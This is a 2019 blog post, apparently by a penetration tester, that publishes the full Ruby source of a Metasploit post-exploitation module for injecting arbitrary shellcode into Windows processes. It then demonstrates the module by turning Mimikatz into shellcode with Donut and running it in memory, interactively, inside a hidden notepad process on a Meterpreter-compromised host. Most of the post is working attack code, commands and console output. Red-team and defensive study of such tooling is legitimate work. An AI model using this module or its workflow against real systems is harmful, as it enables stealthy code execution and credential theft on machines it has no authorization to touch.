

_**Oct 3, 2019**_

## Meterpreter + Donut = Reflectively and Interactively Executing Arbitrary Executables via Shellcode Injection

I played a bit with the awesome [Donut](https://github.com/TheWover/donut) project, ending up writing a module for executing arbitrary shellcode within Meterpreter aka executing Mimikatz in-memory, reflectively and interactively! 🐱‍👤

[](https://asciinema.org/a/IqHrCBG9R8jwCzJkCdaOXLSHJ)

## Motivation

[Donut](https://github.com/TheWover/donut) enables us to execute arbitrary .NET assembly, EXE, DLL, VBS, JS or XSL in-memory via Position Indipendent Code generation. Since I wrote in the past [the module for the Juicy variant of *Potato exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_075_reflection_juicy.rb), I knew that Metasploit offers some nice APIs to inject and run arbitrary shellcode, so I decided to write a module for arbitrary shellcode execution. I will demo it by popping an interactive, memory-only instance of Mimikatz!

## Source Code

This is the source code of the module. A [Pull Request](https://github.com/rapid7/metasploit-framework/pull/12391) was already opened to add it to the main repository.

Here it is a copy of the source code:

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core/post/common'
require 'msf/core/post/windows/reflective_dll_injection'

class MetasploitModule < Msf::Post
  include Msf::Post::Common
  include Msf::Post::Windows::ReflectiveDLLInjection

  def initialize(info={})
    super( update_info( info,
      'Name'          => 'Windows Manage Memory Shellcode Injection Module',
      'Description'   => %q{
        This module will inject into the memory of a process a specified shellcode.
      },
      'License'       => MSF_LICENSE,
      'Author'        => [ 'phra <https://iwantmore.pizza>' ],
      'Platform'      => [ 'win' ],
      'SessionTypes'  => [ 'meterpreter' ]
    ))

    register_options(
      [
        OptPath.new('SHELLCODE', [true, 'Path to the shellcode to execute']),
        OptInt.new('PID', [false, 'Process Identifier to inject of process to inject the shellcode. (0 = new process)', 0]),
        OptBool.new('CHANNELIZED', [true, 'Retrieve output of the process', true]),
        OptBool.new('INTERACTIVE', [true, 'Interact with the process', true]),
        OptBool.new('HIDDEN', [true, 'Spawn an hidden process', true]),
        OptEnum.new('BITS', [true, 'Set architecture bits', '64', ['32', '64']])
      ])
  end

  # Run Method for when run command is issued
  def run

    # syinfo is only on meterpreter sessions
    print_status("Running module against #{sysinfo['Computer']}") if not sysinfo.nil?

    # Set variables
    shellcode = IO.read(datastore['SHELLCODE'])
    pid = datastore['PID']
    bits = datastore['BITS']
    p = nil
    if bits == '64'
      bits = ARCH_X64
    else
      bits = ARCH_X86
    end

    if pid == 0 or not has_pid?(pid)
      p = create_temp_proc(bits)
      print_status("Spawned process #{p.pid}")
    else
      print_status("Opening process #{p.pid}")
      p = client.sys.process.open(pid.to_i, PROCESS_ALL_ACCESS)
    end

    if bits == ARCH_X64 and client.arch == ARCH_X86
      print_error("You are trying to inject to a x64 process from a x86 version of Meterpreter.")
      print_error("Migrate to an x64 process and try again.")
      return false
    elsif arch_check(bits, p.pid)
      inject(shellcode, p)
    end
  end

  # Checks the Architeture of a Payload and PID are compatible
  # Returns true if they are false if they are not
  def arch_check(bits, pid)
    # get the pid arch
    client.sys.process.processes.each do |p|
      # Check Payload Arch
      if pid == p["pid"]
        print_status("Process found checking Architecture")
        if bits == p['arch']
          print_good("Process is the same architecture as the payload")
          return true
        else
          print_error("The PID #{ p['arch']} and Payload #{bits} architectures are different.")
          return false
        end
      end
    end
  end

  # Creates a temp notepad.exe to inject payload in to given the payload
  # Returns process PID
  def create_temp_proc(bits)
    windir = client.sys.config.getenv('windir')
    # Select path of executable to run depending the architecture
    if bits == ARCH_X86 and client.arch == ARCH_X86
      cmd = "#{windir}\\System32\\notepad.exe"
    elsif bits == ARCH_X64 and client.arch == ARCH_X64
      cmd = "#{windir}\\System32\\notepad.exe"
    elsif bits == ARCH_X64 and client.arch == ARCH_X86
      cmd = "#{windir}\\Sysnative\\notepad.exe"
    elsif bits == ARCH_X86 and client.arch == ARCH_X64
      cmd = "#{windir}\\SysWOW64\\notepad.exe"
    end

    proc = client.sys.process.execute(cmd, nil, {
      'Hidden' => datastore['HIDDEN'],
      'Channelized' => datastore['CHANNELIZED'],
      'Interactive' => datastore['INTERACTIVE']
    })

    return proc
  end

  def inject(shellcode, p)
    print_status("Injecting shellcode into process ID #{p.pid}")
    begin
      print_status("Allocating memory in process #{p.pid}")
      mem = inject_into_process(p, shellcode)
      print_status("Allocated memory at address #{"0x%.8x" % mem}, for #{shellcode.length} byte shellcode")
      p.thread.create(mem, 0)
      print_good("Successfully injected payload into process: #{p.pid}")

      if datastore['INTERACTIVE'] && datastore['CHANNELIZED'] && datastore['PID'] == 0
        print_status("Interacting")
        client.console.interact_with_channel(p.channel)
      elsif datastore['CHANNELIZED']
        print_status("Retrieving output")
        data = p.channel.read
        print_line(data) if data
      end
    rescue ::Exception => e
      print_error("Failed to inject Payload to #{p.pid}!")
      print_error(e.to_s)
    end
  end
end
```

## Demo

We want to reflectively and interactively execute Mimikatz on the target system. Let's generate the shellcode with [Donut](https://github.com/TheWover/donut):

```text
$ donut -f /tmp/mimikatz.exe -a 2 -o /tmp/payload.bin

  [ Donut shellcode generator v0.9.2
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : PIC
  [ Module file   : "/tmp/mimikatz.exe"
  [ File type     : EXE
  [ Target CPU    : AMD64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "/tmp/payload.bin"
```

Now let's move to Metasploit, spawn a Meterpreter on the target machine and proceed to use the module in the following way:

```text
msf5 post(windows/manage/shellcode_inject) > use post/windows/manage/shellcode_inject
msf5 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/payload.bin
msf5 post(windows/manage/shellcode_inject) > set SESSION 1
msf5 post(windows/manage/shellcode_inject) > run


[*] Running module against MSEDGEWIN10
[*] Spawned process 6988
[*] Process found checking Architecture
[+] Process is the same architecture as the payload
[*] Injecting shellcode into process ID 6988
[*] Allocating memory in process 6988
[*] Allocated memory at address 0x1bc0ec60000, for 1044960 byte shellcode
[+] Successfully injected payload in to process: 6988
[*] Interacting

  .#####.   mimikatz 2.2.0 (x64) #18362 Aug 14 2019 01:31:47
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz # exit
Bye!
[*] Post module execution completed
```

It works, awesome! 🚀



[back](../)
